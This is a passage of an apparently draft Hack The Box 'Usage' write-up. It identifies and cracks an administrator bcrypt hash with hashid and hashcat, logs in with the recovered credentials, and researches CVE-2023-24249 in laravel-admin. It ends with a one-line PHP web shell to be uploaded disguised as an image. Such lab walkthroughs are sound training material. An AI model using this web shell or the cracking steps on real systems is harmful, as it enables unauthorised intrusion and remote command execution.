#### Cracking Administrator Hash
We now have identified the Administrator's username and their password hash. Using `hashid` & just general knowledge we identify this hash as Blowfish(OpenBSD):
```bash
kali@kali:~/HTB/Usage$ cat admin.hash|hashid
Analyzing '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```

Hashcat Wiki's [Example Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) provides the Blowfish hash identifier as `3200` We then use `hashcat` to crack the hash:
```bash
hashcat -a 0 -m 3200 admin.hash /usr/share/wordlists/rockyou.txt
```
- `-a 0` = Toggle Straight Mode (i.e. top down approach through wordlist)
- `-m 3200` = Specify the hash type as Blowfish 
- `admin.hash` = Text file containing the obtained hash
- `/usr/share/wordlist/rockyou.txt` = Wordlist to test passwords against hash

![Hash Cracked](hashcat-cracked-hash.png)
_Hashcat Cracked Hash_

#### Admin Dashboard
We can now login to the `admin.usage.htb` subdomain with the `Administrator:whatever1` credentials. 

![Admin Dashboard](Admin-dashboard.png)
_Usage Admin Dashboard_

Looking at the footer we see `Verion 1.8.17` and in the dependencies list we see `encore/laravel-admin 1.8.18`. So it is safe to assume that the dashboard we are currently in is laravel-admin v1.8.17; Therefore, I will research exploits for this specific version:

(INSERT GOOGLE LARAVEL EXPLOIT SEARCH IMAGE
![Laravel Exploit Google Search]('Laravel-admin Exploit google search.png)
_Laravel Exploit Google Searching_

#### Gaining A Shell
Looks like [CVE-2023-24249](https://nvd.nist.gov/vuln/detail/CVE-2023-24249) is for exploiting an Arbitrary File Upload Vulnerability in Laravel-admin v.1.8.19, which allows attacked to execute arbitrary code via craft PHP file.

FlyD provides a [Proof of Concept (PoC) walkthrough]() for exploiting this vulnerability, which basically just requires intercepting the image upload request and changing the `filename` to include `.php`. 
(INSERT FlyD PoC Exploit IMAGE)
![FlyD Laravel Exploit PoC](FlyD Upload Bypass PoC.png)
_FlyD Arbitrary Upload Bypass PoC_

1. Create PHP Web Shell (save with .jpg Extension):
```php
<?php SYSTEM($_GET['cmd']); ?>
```
